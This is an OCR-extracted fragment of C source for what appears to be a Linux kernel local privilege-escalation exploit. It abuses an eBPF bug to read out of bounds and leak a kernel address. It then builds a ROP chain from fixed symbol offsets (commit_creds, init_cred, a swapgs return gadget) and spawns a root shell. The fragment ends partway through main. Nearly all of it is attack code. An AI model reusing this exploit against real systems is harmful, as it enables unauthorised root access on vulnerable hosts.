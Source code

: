 ```clike=
{
    if (getuid() != 0)
    {
        error_exit("[-] didn't got root\n");
    }
    else
    {
        printf("[+] got root\n");
        system("/bin/sh");
    }
}

size_t user_cs, user_gs, user_ds, user_es, user_ss, user_rflags, user_rsp;
void get_userstat()
{
    __asm__(".intel_syntax noprefix\n");
    __asm__ volatile(
        "mov user_cs, cs;\
         mov user_ss, ss;\
         mov user_gs, gs;\
         mov user_ds, ds;\
         mov user_es, es;\
         mov user_rsp, rsp;\
         pushf;\
         pop user_rflags");
//    printf("[+] got user stat\n");
}

int main(int argc, char* argv[])
{
    if (argc == 1)
    {
        // use the crash to leak
        struct bpf_insn oob_test[] = {
            trigger_bug(),
            BPF_ALU64_IMM(BPF_MUL, EXP_REG, (16 - 8)),
            BPF_MOV64_IMM(BPF_REG_2, 0),
            BPF_MOV64_REG(BPF_REG_3, BPF_REG_10),
            BPF_ALU64_IMM(BPF_ADD, BPF_REG_3, -8),
            BPF_MOV64_IMM(BPF_REG_4, 8),
            BPF_ALU64_REG(BPF_ADD, BPF_REG_4, EXP_REG),
            BPF_RAW_INSN(BPF_JMP | BPF_CALL, 0, 0, 0, BPF_FUNC_skb_load_bytes), 
            BPF_EXIT_INSN()
        };

        char write_buf[0x100];
        memset(write_buf, 0xAA, sizeof(write_buf));
        if (0 != run_bpf_prog(oob_test, sizeof(oob_test) / sizeof(struct bpf_insn), NULL, write_buf, 0x100))
        {
            error_exit("[-] Failed to run bpf program\n");
        }
    }
    else if (argc == 2)
    {
        get_userstat();
        signal(SIGSEGV, &get_root);
        size_t kernel_offset = strtoul(argv[1], NULL, 16);
        printf("[+] kernel offset: 0x%lx\n", kernel_offset);
        size_t commit_creds = kernel_offset + 0xffffffff810d7210;
        size_t init_cred = kernel_offset + 0xffffffff82e6e860;
        size_t pop_rdi_ret = kernel_offset + 0xffffffff81097050;
        size_t swapgs_restore_regs_and_return_to_usermode = kernel_offset + 0xffffffff81e0100b;
```